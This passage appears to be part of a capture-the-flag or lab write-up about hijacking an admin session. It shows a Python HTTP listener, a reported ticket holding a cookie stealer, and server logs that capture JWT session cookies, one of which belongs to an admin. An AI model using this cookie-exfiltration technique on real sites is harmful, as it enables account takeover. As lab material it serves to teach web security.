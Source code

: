 ```
python3 -m http.server
```

If we send the request, it gives us our own cookie, this does not helps us with anything, but remember the `report listing to admin stuff`, if we report the ticket with the cookie stealer, we can see this in our python server

```
python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.6.34.159 - - [31/Mar/2025 21:20:35] "GET /?cookie=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjYsInVzZXJuYW1lIjoidGVzdDEiLCJhZG1pbiI6ZmFsc2UsImlhdCI6MTc0MzQ1NTk4M30.58_BVPxAkFoIjQDdGV-SGvFtAe3Yvi98NACqx5Qg-Jw HTTP/1.1" 200 -
10.10.239.175 - - [31/Mar/2025 21:20:40] "GET /?cookie=token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VySWQiOjIsInVzZXJuYW1lIjoibWljaGFlbCIsImFkbWluIjp0cnVlLCJpYXQiOjE3NDM0NTYwMzl9.XxMci203JEpwiMq88Skqx40-2HDRa7ao8znkRjRjj4Q HTTP/1.1" 200 -
```


The last one is the admin cookie, we know this by decoding the `JWT Token`:

![Pasted image 20250331162253.png](../../IMAGES/Pasted%20image%2020250331162253.png)

Let's use the cookie and visualize the admin page:

![Pasted image 20250331162423.png](../../IMAGES/Pasted%20image%2020250331162423.png)
